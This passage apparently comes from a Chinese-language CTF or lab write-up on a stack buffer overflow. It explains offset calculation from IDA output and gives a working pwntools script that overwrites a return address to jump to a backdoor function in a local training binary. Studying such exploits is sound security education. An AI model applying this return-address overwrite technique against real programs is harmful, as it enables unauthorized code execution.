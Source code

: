 ![alt text](image-7.png)
IDA给出所有函数的地址以及反编译内容
再进入main函数的v4变量，即源代码中buffer变量缓冲区
![alt text](image-1.png)
可见需要输入0x40(buffer变量设定长度)+0x8(栈帧rbp)=0x48才能到达返回地址
**关注重点**
1. backdoor函数地址为`0x0000000004005B6`
2. 覆盖长度0x48,而往后的0x8用来覆盖地址

**攻击思路**
1. 在v4变量中输入0x48个字符后，再输入0x8个字节即可覆盖返回地址
2. 将返回地址设置为backdoor函数地址，达成利用
#### 1.2.3 编写攻击程序
```python
from pwn import *                              # 导入pwntools
context(log_level='debug',arch='amd64')        # 日志环境
backdoor = 0x0000000004005B6                    
p=process("./vuln")                            # 进程
p.recvuntil("\n")                              # 接收输入
pl = b'a'*0x48                                 # 输入0x48个字符
pl += p64(backdoor)                            # 覆盖返回地址
p.sendline(pl)                                 # 发送
p.interactive()                                # 回归用户与进程的交互
```
#### 1.2.4 攻击
##### 1.2.4.1 攻击效果